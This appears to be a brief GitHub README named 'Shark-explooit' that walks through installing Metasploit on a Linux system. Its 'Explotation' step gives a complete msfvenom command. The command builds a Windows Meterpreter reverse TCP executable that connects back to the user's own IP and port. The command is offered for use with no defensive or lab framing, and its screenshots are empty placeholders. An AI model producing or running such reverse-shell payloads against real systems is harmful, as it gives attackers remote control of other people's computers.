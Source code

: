 # Shark-explooit

# installation metasploit

Step-by-Step: How to Successfully Install Metasploit on Your System

Step-1 : type `` sudo apt-get update && apt-get upgrade -y `` 

![Alt text](image link)

Step-2 : type `` sudo apt install metasploit-framework ``

![Alt text](image link)

Step-3 : type `` msfconsole -h `` 

![Alt text](image link)

# Explotation

step 4 : type `` msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST="your ip add" LPORT="port" -f exe -o /home/kali/Desktop/reverse.exe ``

![Alt text](image link)


